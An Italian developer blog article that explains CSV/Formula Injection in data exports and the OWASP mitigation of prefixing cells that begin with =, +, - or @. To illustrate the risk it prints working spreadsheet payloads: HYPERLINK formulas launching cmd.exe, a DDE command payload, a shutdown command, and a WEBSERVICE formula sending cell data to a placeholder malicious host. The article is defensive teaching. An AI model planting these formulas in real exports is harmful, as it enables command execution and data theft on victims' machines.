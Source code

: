 
**Comma Separated Victims (sottotitolo:  Attenti alla Formula!)**
*autore: Simone Cinti - Gennaio 2021*

Quante volte ti è capitato di aver a che fare con l'export dei dati in formato CSV?
Diverse volte, suppongo.
Sei consapevole dei rischi a cui potresti andare incontro sottovalutando alcune vulnerabilità nello sviluppo di una componente per l'export dei dati in formato CSV, che potrebbero consentire una serie di attacchi quali  **Remote Command Execution**  e **Data Breach**?
Se non hai mai sentito parlare di **Injection** e, più precisamente di **Formula Injection** o di **CSV Injection**,  allora questo articolo farà certamente al caso tuo.

Nel mio [precedente articolo](https://techblog.smc.it/it/2020-06-19/injection-attacks-how-to-prevent-with-liferay) su questo techblog avevo già illustrato come gli attacchi di tipo Injection possono rappresentare un serio rischio per la sicurezza dei tuoi dati, e come prevenirli con Liferay.
La lettura di questo articolo: [Injection attacks - how to prevent with Liferay](https://techblog.smc.it/it/2020-06-19/injection-attacks-how-to-prevent-with-liferay) è dunque vivamente consigliata al fine di comprendere al meglio gli argomenti trattati; tuttavia se sei un lettore esperto e già conosci le insidie che si nascondono dietro questo tipo di attacchi e le strategie per neutralizzarli, allora non avrai di certo difficoltà a proseguire con la lettura.

Come saprai, la prima regola per scongiurare gli attacchi di tipo Injection consiste nella validazione degli input: ciò consentirà di escludere alcuni caratteri più o meno speciali che potrebbero riverlarsi assai utili per l'attaccante.
Purtroppo però non sempre è facile definire una espressione regolare che consenta di filtrare in modo efficace i caratteri non desiderati dagli input, senza fare a meno di caratteri che invece appartengono propriamente al dominio dell'input e dei quali non possiamo farne a meno. Un esempio può essere il carattere apostrofo " ' " che non possiamo di certo escludere dai campi di input per il nome ed il cognome, ma del quale faremmo volentieri a meno in quanto lo stesso carattere è sia un valido separatore di attributi in HTML che un carattere indispensabile nel linguaggio SQL per definire sequenze di caratteri. Per questo motivo è sempre opportuno assicurarsi di non aver trascurato la seconda regola per la neutralizzazione degli attacchi di tipo **Injection**, che consiste nella sanitizzazione dell'output o **output escaping**. 
Nonostante tutte queste precauzioni potrebbe però accadere che, del tutto ignari dei rischi che potrebbero derivare dalla mancanza di escaping dei valori delle celle che si esportano, tutte queste attenzioni che abbiamo dato all'output sanitization in pagina vengono poi trascurate quando ci troviamo di fronte ad una componente di export CSV. 

*Niente di più pericoloso...*

Del resto anche nei nomi delle API che utilizziamo per effettuare l'escaping compaiono spesso i termini HTML e JS mentre difficilmente comparirà il termine CSV, e potrebbe anche essere questa la giustificazione di una nostra eventuale dimenticanza.

Per mostrarti in modo efficace il rischio che stai correndo, concentriamoci ora su uno dei campi di input più insidiosi da validare: il campo *note*. 
Spesso, per dare più libertà all'utente, oltre ai caratteri alfanumerici in un campo *note* multilinea sono consentiti i caratteri di punteggiatura ed alcuni simboli di valute oltre al simbolo "%" percentuale o altri caratteri speciali. 

Ma **nelle situazioni più comuni** non effettuiamo alcun tipo di validazione né di escaping dei valori delle celle esportate nel CSV, perché in genere **non sospettiamo affatto delle insidie che possono nascondersi dietro l'interpretazione di valori non desiderati in un foglio di calcolo**.

Nei fogli di calcolo più diffusi nelle Office suite, come LibreOffice Calc o Microsoft Excel, alcune funzioni del foglio di calcolo possono rivelarsi un serio problema dal punto di vista della sicurezza. 

In particolare, potremmo inserire nel campo note in input la sequenza:

    =COLLEG.IPERTESTUALE("C:\Windows\System32\cmd.exe";"Apri la pagina web")

per generare in output un CSV che nella cella corrispondente avrà un valore che se cliccato dall'utente consentirà l'esecuzione (previa conferma da parte dell'utente) del comando al percorso indicato. Nell'esempio aprirà il prompt dei comandi sulla macchina della vittima; in questo modo l'attaccante è riuscito a sfruttare un attacco **Formula Injection** al fine di ottenere poi l'esecuzione di un comando del Sistema Operativo (**Remote Command Execution** o più propriamente **OS Command Injection**)

Allarmante, vero?

Del resto potremmo ovviare semplicemente con l'aggiunta di qualche meccanismo di validazione, se non fosse per il fatto che, trattandosi di hyperlink, di certo il foglio di calcolo potrà interpretare correttamente anche la seguente stringa in formato URL encoded:

    =COLLEG.IPERTESTUALE("C%3A%5Cwindows%5Csystem32%5Ccmd.exe")
   
ecco dunque il motivo per il quale potrebbe risultare complicato proteggersi da un attacco di questo tipo nei casi in cui alcuni simboli come il percentuale, l'uguale o le parentesi tonde debbano essere accettati in input a meno di non voler limitare l'applicazione venendo meno alle necessità concordate con l'utente.

Per fortuna i fogli di calcolo che supportano questa tipologia di formule consentono la sola esecuzione del file indicato sul percorso e non il passaggio dei parametri, altrimenti potremmo effettuare lo **shutdown** immediato di un Sistema Operativo Windows iniettando il comando:

    C:\Windows\System32\cmd.exe /C "shutdown /p"

ma ciò è soltanto una magra consolazione, se pensiamo che invece è ammessa l'esecuzione di script in formato .vbs (VBScript).

Qualora la vittima utilizzasse invece versioni precedenti della suite Office oppure una versione recente in cui è abilitato il servizio [**Dynamic Data Exchange**](https://docs.microsoft.com/it-it/office/troubleshoot/excel/security-settings), allora potrebbe anche rischiare di subire un attacco ben più grave che consente l'esecuzione di comandi stavolta anche con il supporto dei parametri:

    =cmd|'/K echo INJECTION'!A0

Attacchi di questo tipo mediante **Formula Injection** sono dunque degli stratagemmi per arrivare ad altre tipologie di attacchi ben più pericolosi quali **l'esecuzione di un comando** del Sistema Operativo o di una applicazione in modo indesiderato.

Dal momento che si accennava agli hyperlink, un attaccante potrebbe sfruttare un attacco di questo tipo anche per l'invocazione di servizi web malevoli mediante la funzione per l'invocazione dei servizi web. 
Ad esempio un attaccante potrebbe sfruttare la vulnerabilità per iniettare una formula che possa invocare un servizio web a sua scelta al fine di ricevere i dati presenti nelle colonne C6, C7 e C8 . L'utente ignaro di tutto potrebbe involontariamente invocare una HTTP Request verso il servizio malevolo:

    =SERVIZIO.WEB(CONCATENA("http://service.malware?d="; C6&","&C7&","&C8))

passando nel parametro "d" i dati che desidera, sfruttando così l'attacco **Formula Injection** ai fini di un **Data Breach** .

Arrivati a questo punto ti starai chiedendo quali sono le strategie utili a neutralizzare questo tipo di attacchi.

In accordo con quanto [consigliato da **OWASP**](https://owasp.org/www-community/attacks/CSV_Injection) in merito alle strategie di difesa mediante neutralizzazione degli attacchi di tipo **CSV Injection** o **Formula Injection**, è sufficiente anteporre il carattere apostrofo " ' " ad ogni valore di cella che inizi per:

 - = (*uguale*)
 - \+  (*più*)
 - \-  (*meno*)
 - @  (*chiocciola*)
 
 in questo modo si eviterebbe al foglio di calcolo di interpretare come formula il valore contenuto nella cella, che mostrerà il valore come una semplice stringa.

Ovviamente ciò non ci renderà immuni da quell'utente che decida arbitrariamente di modificare il valore della cella eliminando il carattere apostrofo.
In tal caso potremmo adottare strategie più o meno restrittive o invasive di sanitizzazione al fine di proteggere anche gli utenti più *intraprendenti* da se stessi.

Per ulteriori approfondimenti:
- https://payatu.com/csv-injection-basic-to-exploit
- https://labs.bishopfox.com/tech-blog/2018/06/server-side-spreadsheet-injections
- https://owasp.org/www-community/attacks/CSV_Injection
- https://cwe.mitre.org/data/definitions/1236.html
- https://docs.microsoft.com/it-it/office/troubleshoot/excel/security-settings
- https://techblog.smc.it/it/2020-06-19/injection-attacks-how-to-prevent-with-liferay
 
